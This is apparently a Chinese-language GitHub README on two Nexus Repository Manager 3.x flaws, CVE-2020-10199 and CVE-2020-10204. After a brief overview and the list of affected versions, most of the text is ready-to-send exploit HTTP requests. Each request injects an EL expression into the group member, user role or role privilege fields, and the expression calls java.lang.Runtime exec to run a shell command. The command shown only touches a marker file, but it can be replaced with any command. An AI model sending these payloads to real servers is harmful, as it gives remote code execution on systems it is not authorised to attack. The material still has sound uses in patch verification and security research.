

## 漏洞概述

2020 年 3 月 31 日 Nexus Repository Manager 官方发布了 `CVE-2020-10199` `CVE-2020-10204` 的漏洞通告信息，两个漏洞均是由 [Github Secutiry Lab](https://securitylab.github.com/) 的是 [@pwntester](https://github.com/pwntester) 发现的。

这两个漏洞主要是由于可执行恶意 `EL表达式` 导致的。

CVE-2020-10199 的最终触发是通过给 `HelperBean` 的 `message` 进行 `EL表达式` 注入。

CVE-2020-10204 的主要原因是在`org.sonatype.nexus.security.privilege.PrivilegesExistValidator` 或 `org.sonatype.nexus.security.role.RolesExistValidator` 类中，会对不存在的 `privilege` 或 `role` 抛出错误，而在错误信息抛出的时候，会存在一个 `EL表达式` 的渲染，会提取其中的el表达式并执行，从而造成 `EL表达式` 注入。

## 影响范围

```http
Nexus Repository Manager 3.x OSS/Pro <= 3.21.1
CVE-2020-10199：需有低权限账号
CVE-2020-10204：需有管理员账号
```

## POC

CVE-2020-10199-10204.jar 图形化检测工具

1. 登录进入后台；
2. 获取登录后的cookie及scrf属性；
3. 打开本工具，填写相关信息，点击检测即可。



## EXP_CVE-2020-10199

需要普通用户权限

```http
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 195
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.7886248393834028
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=396e7352-f76c-4bdd-9833-98d7990dca3b
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10199')}"]
  }
}
```

## EXP_CVE-2020-10204

1. 利用更新用户接口：

```http
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 301
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.16936373694860252
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.16936373694860252; NXSESSIONID=4e5437b3-7755-4784-bda6-d004e8f589fb
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"]}],"type":"rpc","tid":9}
```

2. 利用创建角色接口:

```http
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 294
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=da418706-f4e4-468e-93ac-de9c46802f11
Connection: close

{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"],"roles":[]}],"type":"rpc","tid":89}
```

